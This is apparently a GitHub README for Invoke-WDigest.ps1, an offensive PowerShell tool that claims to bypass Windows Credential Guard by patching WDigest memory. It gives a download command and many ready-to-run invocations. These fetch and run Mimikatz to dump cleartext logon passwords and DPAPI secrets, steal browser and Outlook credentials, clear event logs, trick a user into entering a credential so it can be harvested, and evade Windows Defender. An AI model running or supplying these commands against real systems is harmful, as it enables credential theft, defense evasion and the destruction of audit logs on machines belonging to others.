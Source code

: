 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Credits|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|@wh0nsq, @Benjamin_Delpy, @nirsoft|

<br /><br />

|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials *|<b><i>false</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>false</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|
|BrowserCreds|Dump installed browers\outlook credentials [clear-text]|<b><i>false</i></b>|
|Banner|Print Invoke-WDigest cmdlet banner?|true|

<b><i>* Invoke-WDigest.ps1 cmdlet only bypasses mimikatz detection if windows defender its the only AV running in target system.</i></b><br />

<br /><br />

**download Invoke-WDigest.ps1:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**run cmdlet:**
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi'

# Execute Mimikatz (multiple dump::modules) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::dpapi event::clear exit'

#  Ativate WDigest caching + Exec Mimikatz pre-sellection of dump::modules
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'auto'

# Dump browsers credentials without WDiget catching
.\Invoke-WDigest.ps1 -wdigest 'false' -browsercreds



[WDIGEST MEMORY CATCHING - FAST DEMONSTRATION]

## WDigest caching + dump (-runas) created credential with mimikatz
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
     - [Downside] -runas switch pauses cmdlet execution waiting for credential input.
   - WDigest will store (runas) credential input by user in clear-text in memory
     - [Downside] -runas command (wdigest) only stores 'valid' credentials in-memory.   
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch pauses this cmdlet execution until one credential its inputed,
   then starts cmd.exe with suplied credential in a hidden windows (detach from parent).
   Child process its necessary for mimikatz 'sekurlsa::wdigest' dump the cred from Memory.
```

<br />

<b><i>Execute Mimikatz (interactive shell) without WDigest caching</i></b><br />
![interactive](https://user-images.githubusercontent.com/23490060/219967042-4559b463-5e3e-470d-8ffe-5111eae7f015.png)

<br />

<b><i>WDigest caching + dump (-runas) created credential with mimikatz</i></b><br />
![POC2](https://user-images.githubusercontent.com/23490060/219876558-6f68d5cb-e0b7-4bd2-b6e1-689dd8f62792.png)

![POC3](https://user-images.githubusercontent.com/23490060/219876572-e28d1c22-b6a6-456c-a710-2af8e75f339b.png)

<br />

<b><i>Dump browsers credentials without WDiget catching</i></b><br />
![brcreds](https://user-images.githubusercontent.com/23490060/221413695-a227e1c3-fa2d-43e0-9f50-44b0157a5af0.png)


<br />

<b><i>Invoke-WDigest.ps1 only bypasses mimikatz detection if windows defender its the only AV running in target system</i></b><br />
![ProactiveDefense](https://user-images.githubusercontent.com/23490060/219057639-902cc82a-43a3-4391-9927-4b55e532a78c.png)


<br />

- [Mimikatz modules list](https://tools.thehacker.recipes/mimikatz/modules)
